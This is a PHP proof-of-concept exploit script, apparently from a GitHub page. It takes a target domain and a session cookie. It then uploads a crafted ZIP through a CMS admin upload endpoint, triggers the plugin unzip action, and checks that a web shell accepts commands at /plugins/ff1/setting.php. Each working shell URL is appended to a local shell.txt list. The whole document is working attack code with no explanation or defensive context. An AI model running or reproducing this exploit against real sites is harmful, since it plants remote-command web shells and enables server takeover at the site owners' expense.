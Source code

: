 finalpoc.php
```
<?php
if(isset($_GET['domain'])){
	if(isset($_GET['cookie'])){
		$ch = curl_init();

		$filePath = 'F:\tong\phpstudy\PHPTutorial\WWW\test\ff1.zip';
		$data     = array('name' => 'Foo', 'upfile' => '@' . $filePath);

		if (class_exists('\CURLFile')) {
			$data['upfile'] = new \CURLFile(realpath($filePath));
		} else {
			if (defined('CURLOPT_SAFE_UPLOAD')) {
				curl_setopt($ch, CURLOPT_SAFE_UPLOAD, FALSE);
			}
		}

		$domain = "http://".$_GET['domain'];
		$path = "/admin.php?c=upload&f=zip&_noCache=0.1560233823&name=ff1.zip";
		$url = $domain.$path;
		$post_data = array("upfile" => "F:\tong\phpstudy\PHPTutorial\WWW\test\ff1.zip",);
		$cookie = "PHPSESSION=".$_GET['cookie'];
		curl_setopt($ch , CURLOPT_COOKIE,$cookie);
		curl_setopt($ch , CURLOPT_URL , $url);
		curl_setopt($ch , CURLOPT_RETURNTRANSFER, 1);
		curl_setopt($ch , CURLOPT_POST, 1);
		curl_setopt($ch, CURLOPT_POSTFIELDS, $data);

		$output = curl_exec($ch);
		curl_close($ch);
		$de_json = json_decode($output,TRUE);
		if($de_json){
			$filename = $de_json['content'];
			echo "uploaded ok:".$filename."\r\n";
			$url1 = $domain."/admin.php?c=plugin&f=unzip&filename=".$filename."&_=1560232103659";
			$ch = curl_init();
			curl_setopt($ch, CURLOPT_URL, $url1);
			curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
			curl_setopt($ch , CURLOPT_COOKIE,$cookie);
			$data = curl_exec($ch);
			curl_close($ch);
			$shelltest = $domain."/plugins/ff1/setting.php?aaa=echo%201;";

			if(file_get_contents($shelltest) == 1){
				echo "shell ok.."."\r\n";
				$fh = fopen("./shell.txt", "a");
				$shell = $domain."/plugins/ff1/setting.php";
				fwrite($fh, $shell);
				fwrite($fh,"\r\n");
			}
		}
	}
}
?>
```

